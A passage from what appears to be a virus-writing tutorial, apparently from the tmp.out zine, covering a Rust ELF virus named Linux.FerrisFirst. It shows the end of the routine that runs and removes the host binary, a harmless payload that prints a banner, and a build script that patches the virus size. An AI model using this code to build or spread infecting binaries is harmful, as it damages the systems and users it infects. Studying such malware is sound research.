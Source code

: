 ```rust
    if let Err(_) = fs::set_permissions(&path, perms) { return; }

    let _ = Command::new(&path).args(args).status(); // Discard Result
    if let Err(_) = fs::remove_file(&path) { return; }
}
```

## The virus payload

The virus should work now, but it won't tell us it's running. We can add code to `virus_main` to do just that. Remember in `main` we set `virus_main` to execute before `execute_host`! Here is a non-destructive payload that prints a cool header to stdout when an infected binary is ran.

```rust
/// Code that is executed when an infected file is ran
fn virus_main() {
    println!("\x1b[92m{}\x1b[0m", ".: tmp.out :.");
}
```

### Patching the `VIRUS_SIZE` constant

As mentioned previously, setting a valid `VIRUS_SIZE` is tricky in Rust. I opted to write a small shell script `build.sh` that performs the following:

1. Build the virus once and get the output file size
2. Patch the virus source code with the correct size
3. Rebuild the virus

```sh
#!/bin/sh

# The line in source code to match
DECL='const VIRUS_SIZE: usize = '

# Compiler options: no fancy panic, link time optimization, max optimization, no debug_info, strip
OPTS='+nightly -C panic=abort -C lto=y -C opt-level=z -C debuginfo=0 -Z strip=symbols'

# Compile virus once, compress with upx, and get final size
rustc $OPTS ferris-first.rs -o Linux.FerrisFirst || exit
SIZE=`wc Linux.FerrisFirst | awk '{print $3}'`

# Patch `VIRUS_SIZE` in the source code and recompile
sed -i -s "s/${DECL}.*;/${DECL}${SIZE};/g" ferris-first.rs
rustc $OPTS ferris-first.rs -o Linux.FerrisFirst
```

Building the virus twice is a little bit expensive but it's only required once and I think it's perfectly okay for a demo.

## Conclusion

I hope this document was helpful. I myself learned a lot while writing this. Huge thanks to TMZ, sblip, and others at tmp.out for teaching and motivating me to follow through with this project <3
